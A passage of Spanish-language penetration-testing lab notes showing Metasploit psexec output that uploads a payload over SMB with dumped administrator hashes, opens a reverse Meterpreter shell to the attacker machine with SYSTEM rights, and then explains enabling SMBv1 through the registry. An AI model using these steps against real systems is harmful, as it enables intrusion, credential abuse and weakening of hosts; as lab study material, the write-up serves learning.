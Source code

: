 Info:

```
[*] Started reverse TCP handler on 192.168.5.199:4444 
[*] 192.168.5.141:445 - Connecting to the server...
[*] 192.168.5.141:445 - Authenticating to 192.168.5.141:445 as user 'Administrador'...
[!] 192.168.5.141:445 - peer_native_os is only available with SMB1 (current version: SMB2)
[*] 192.168.5.141:445 - Uploading payload... WHSNLJPY.exe
[*] 192.168.5.141:445 - Created \WHSNLJPY.exe...
[*] Sending stage (176198 bytes) to 192.168.5.141
[+] 192.168.5.141:445 - Service started successfully...
[*] 192.168.5.141:445 - Deleting \WHSNLJPY.exe...
[*] Meterpreter session 3 opened (192.168.5.199:4444 -> 192.168.5.141:49216) at 2024-07-30 17:23:22 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Y con esto ya nos habriamos autenticado como administradores mediante SMB y los hashes que dumpeamos con kiwi.

> AVISO

Si no funcionara el exploit de `psexec` revisar que es con el usuario administrador, por que otro usuario no funciona a no ser que tenga privilegios de administrador, y si siguiera fallando teneis que aseguraros de que el SMB es v1, por que con la v2 no va a ir.

### Cambiar SMB a v1

Abre el gestor de archivos con lo siguiente.

`Windows + R` y escribe `regedit`

Ahora nos tendremos que ir a la siguiente ubicacion.

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
```

Despues dentro de esa carpeta añadiremos lo siguiente.

**Agregar Clave**:

* En el panel derecho, haz clic derecho en un espacio vacío y selecciona **Nuevo** > **Valor DWORD (32 bits)**.
* Nombra la nueva entrada como `SMB1`.
* Haz doble clic en la entrada `SMB1` y establece el valor en `1` para habilitar SMB1. **Modificar Clave Existente**:
* Si ya existe una entrada llamada `SMB1`, haz doble clic en ella y asegúrate de que el valor sea `1`.

Una vez hecho esto lo podremos comprobar desde la maquina atacante de la siguiente forma.

```shell
nmap -p 445 --script smb-protocols <IP>
```
